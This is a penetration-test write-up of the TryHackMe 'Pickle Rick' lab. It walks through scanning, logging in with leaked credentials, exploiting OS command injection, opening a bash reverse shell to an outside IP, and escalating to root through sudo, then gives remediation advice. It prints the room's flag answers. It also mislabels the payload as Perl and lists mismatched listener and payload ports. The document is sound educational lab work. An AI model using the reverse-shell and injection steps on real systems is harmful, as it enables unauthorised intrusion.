



# Project: Pickle Rick Penetration Test (TryHackMe)

**Date:** December 2025

**Target:** 10.64.153.135 (Pickle Rick)

**Tools Used:** Nmap, Gobuster, Nikto, curl, Netcat

**Vulnerability Explored:** OS Command Injection

## 1\. Executive Summary

**Objective:** Conduct a black-box penetration test on the target host "Pickle Rick" to identify vulnerabilities, gain initial access via a web application flaw, and retrieve the three hidden ingredients (flags).

**Result:** The assessment identified critical **Information Disclosure** vulnerabilities via HTML comments and file enumeration, leading to the discovery of credentials. These credentials allowed access to a web panel containing a critical **OS Command Injection** vulnerability, which was successfully exploited to gain a reverse shell and retrieve all flags.

## 2\. Technical Findings \& Walkthrough

### Step 1: Reconnaissance \& Enumeration

**Objective:** Identify open ports, services, and hidden web content.

**Methodology:**
I started with an **Nmap** scan to find open ports and followed up with **Gobuster** and **Nikto** to enumerate the web server.

```bash
# Port Scan
nmap -sV 10.64.153.135
```



```bash
# Directory Brute-force
gobuster dir -u http://10.64.153.135/ -w /usr/share/seclists/Discovery/Web-Content/common.txt

# Web Vulnerability Scan
nikto -h http://10.64.153.135/
```

**Findings:**

* **Open Ports:** Port 22 (SSH) and Port 80 (Apache Web Server).
* **Information Disclosure (Source Code):** Inspecting the HTML source of the homepage revealed a username in a comment.


* **Hidden Files:** Gobuster identified `login.php` and `robots.txt`.
* **Information Disclosure (robots.txt):** Inspecting `robots.txt` revealed a strange string: `Wubbalubbadubdub`.




### Step 2: Initial Access (Credential Stuffing)

**Objective:** Gain access to the `login.php` portal.

**Methodology:**
I combined the username found in the HTML source (`R1ckRu13s`) with the string found in `robots.txt` (`Wubbalubbadubdub`) and attempted to log in to `/login.php`.

* **Username:** `R1ckRu13s`
* **Password:** `Wubbalubbadubdub`

**Result:** The login was successful, redirecting to a command panel at `/portal.php`.


### Step 3: Exploitation (Command Injection)

* **Vulnerability:** OS Command Injection
* **Severity:** Critical

**Methodology:**
The `/portal.php` page contained a command input box. I tested for command injection by appending system commands to the input.

**Test Command:** `ls; whoami`

**Result:** The server executed `whoami` and returned `www-data`, confirming the vulnerability.

**Enumeration:**
I listed the files in the current directory.
**Command:** `ls -la`

**Result:** Discovered a file named `Sup3rS3cretPickl3Ingred.txt`. But when I ran `cat Sup3rS3cretPickl3Ingred.txt` it output this:


### Step 4: Privilege Escalation \& Lateral Movement

**Objective:** Gain a stable shell and locate the ingredients.

**Methodology:**
To move freely on the system, I leveraged the command injection to establish a reverse shell.

**Exploitation Steps:**

1. **Listener:** Started a Netcat listener on my attacker machine: `nc -lvnp 1234`.
2. **Payload:** Injected a Perl reverse shell payload into the command panel:

&nbsp;   ```bash
    bash -c 'bash -i >& /dev/tcp/192.168.151.228/4444 0>&1'
    ```

**Result:** Obtained a stable shell as `www-data`.



**Finding Ingredients:**

* **Ingredient 1:** I enumerated home directories.

  * **Command:** `ls` -> Found `Sup3rS3cretPickl3Ingred.txt`.
  * **Flag:** `cat "Sup3rS3cretPickl3Ingred.txt"` -> `mr. meeseek hair`.

* **Ingredient 2:** I enumerated home directories.

  * **Command:** `ls /home/rick` -> Found `second ingredients`.
  * **Flag:** `cat "/home/rick/second ingredients"` -> `1 jerry tear`.

* **Ingredient 3 (Privilege Escalation):** I checked the user's `sudo` permissions.

  * **Command:** `sudo -l`
  * **Result:** `www-data` can run `(ALL : ALL) NOPASSWD: ALL`. This is a critical misconfiguration allowing instant root access.

!\[Sudo Permissions](img/sudo\_permissions.png)

  * **Root Access:** `sudo bash`
  * **Flag:** `cat /root/3rd.txt` -> `fleeb juice`.


## 3\. Remediation \& Recommendations

1. **Prevent Command Injection (Critical)**
   The web application directly executes user-supplied input on the system shell.

   * **Action:** Never use user input directly in system commands. Use built-in language functions (e.g., PHP's `exec()` is dangerous; prefer alternatives) and strictly validate/sanitize all input.

2. **Fix Sudo Misconfiguration (Critical)**
   The `www-data` user has password-less `sudo` access to run any command as root.

   * **Action:** Remove this entry from the `/etc/sudoers` file immediately.

3. **Remove Sensitive Information (High)**
   Credentials and sensitive data were left in HTML comments and `robots.txt`.

   * **Action:** Conduct code reviews to ensure developers are not leaving comments with sensitive data in production code. Review public files like `robots.txt` for data leakage.

---

*Disclaimer: This project was performed on the TryHackMe "Pickle Rick" room for educational purposes.*

